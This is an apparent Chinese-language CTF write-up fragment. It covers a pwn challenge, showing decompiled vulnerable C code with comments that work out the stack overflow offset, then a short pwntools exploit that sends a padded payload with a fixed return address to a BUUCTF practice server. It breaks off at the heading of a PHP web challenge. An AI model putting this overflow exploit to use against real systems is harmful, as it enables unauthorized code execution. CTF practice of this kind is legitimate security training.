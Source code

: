 3、hex转ascii。

## pwn


```c
int vuln()
{
  const char *v0; // eax
  char s; // [esp+1Ch] [ebp-3Ch]
  char v3; // [esp+3Ch] [ebp-1Ch]
  char v4; // [esp+40h] [ebp-18h]
  char v5; // [esp+47h] [ebp-11h]
  char v6; // [esp+48h] [ebp-10h]
  char v7; // [esp+4Fh] [ebp-9h]

  printf("Tell me something about yourself: ");
  fgets(&s, 32, edata); // 溢出, 0x3C到0, 再+4个eip
  std::string::operator=(&input, &s);
  std::allocator<char>::allocator(&v5);
  std::string::string((int)&v4, (int)"you", (int)&v5);
  std::allocator<char>::allocator(&v7);
  std::string::string((int)&v6, (int)"I", (int)&v7); // I会改成you，所以除以0x3c除3=0x14=20
  replace((std::string *)&v3);
  std::string::operator=(&input, &v3, &v6, &v4);
  std::string::~string((std::string *)&v3);
  std::string::~string((std::string *)&v6);
  std::allocator<char>::~allocator(&v7);
  std::string::~string((std::string *)&v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(&s, v0);
  return printf("So, %s\n", &s);
}
```

```python
from pwn import *
r = remote('node3.buuoj.cn',25394) 
payload = 'a'*20+'b'*4+p32(0x08048F13).decode('latin')
r.sendline(payload)
r.interactive()
```
## 参考

https://www.cnblogs.com/wrnan/p/12811009.html


## Web

### [极客大挑战 2019]PHP
